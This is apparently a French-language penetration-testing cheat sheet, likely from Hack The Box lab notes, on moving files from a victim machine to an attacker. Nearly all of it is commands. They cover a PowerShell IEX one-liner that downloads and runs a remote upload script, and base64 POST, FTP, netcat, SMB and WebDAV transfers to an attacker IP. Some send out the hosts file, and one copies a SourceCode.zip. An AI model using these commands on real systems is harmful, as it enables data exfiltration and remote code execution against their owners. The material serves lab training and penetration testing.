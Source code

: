 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Listener HTTP

```title=configuration du serveur 
pip3 install uploadserver
python3 -m uploadserver


```

### PsUpload.ps1

```utilisation depuis powershell
PS> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### Base 64

```
 $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

## Listener FTP

```
sudo python3 -m pyftpdlib --port 21 --write
```

### Powershell

```
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

### Client ftp

On pourra également utiliser simplement le client `ftp`

## Listener NC

```
# lancement du listener
nc -lvnp 8000

# décodate de la payload reçue 
echo <base64> | base64 -d -w 0 > fichier
```

### Encodage Base 64 du fichier

```title=Linux
echo <base64> | base64 -d -w 0 > fichier
```

```title=Powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

## SMB

### SMB Classique

```
attacker> sudo smbserver.py myshare ./ -smb2support
attacker> sudo smbserver.py myshare ./ -smb2support -user rebrec -password blah
victim> net use x: \\<ATACKER_IP>\myshare /user rebrec blah
```

### WebDav

#### Listener WebDAV

```
# installation
sudo pip install wsgidav cheroot

# utilisation
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

#### Connection au partage

```
# Si on veut accéder à la racine utiliser le partage spécial DavWWWRoot
dir \\192.168.49.128\DavWWWRoot 

# Sinon utilisation du nom du partage classique
dir \\192.168.49.128\partage
 copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\partage\


```
